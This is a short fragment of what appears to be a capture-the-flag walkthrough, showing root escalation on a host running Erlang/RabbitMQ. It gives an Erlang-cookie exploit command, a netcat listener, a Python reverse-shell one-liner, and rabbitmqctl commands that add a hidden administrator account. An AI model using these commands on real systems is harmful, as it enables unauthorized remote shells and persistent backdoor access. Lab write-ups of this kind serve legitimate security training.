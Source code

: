 ```sh
./erl-matter/shell-erldp.py <IP> 25672 <COOKIE>
```

![root-12.png](Screens/root-12.png)

Reverse Shell :

```sh
nc -lvnp 4444
```

![root-15.png](Screens/root-15.png)

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
![root-13.png](Screens/root-13.png)

![root-14.png](Screens/root-14.png)

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```sh
chmod 600 .erlang.cookie
rabbitmqctl add_user imposter 123
rabbitmqctl set_user_tags imposter administrator
```

![root-16.png](Screens/root-16.png)
